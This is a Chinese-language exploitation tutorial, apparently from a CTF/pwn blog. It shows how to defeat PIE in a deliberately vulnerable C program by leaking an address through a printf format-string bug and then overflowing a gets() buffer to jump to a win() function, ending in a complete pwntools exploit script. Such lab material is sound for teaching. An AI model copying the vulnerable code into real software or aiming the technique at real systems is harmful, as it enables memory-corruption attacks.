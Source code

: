 ```yaml
---
title: '通过格式化字符串绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '无已知地址绕过 PIE'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址。我们必须使用其它
手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了。我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。
在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的
地址中减去 `0x11d5` 就会得到二进制文件的基地址。

:::tip
可以通过 `vmmap` 指令来查看程序运行的基地址。

对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。
:::

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

LINK

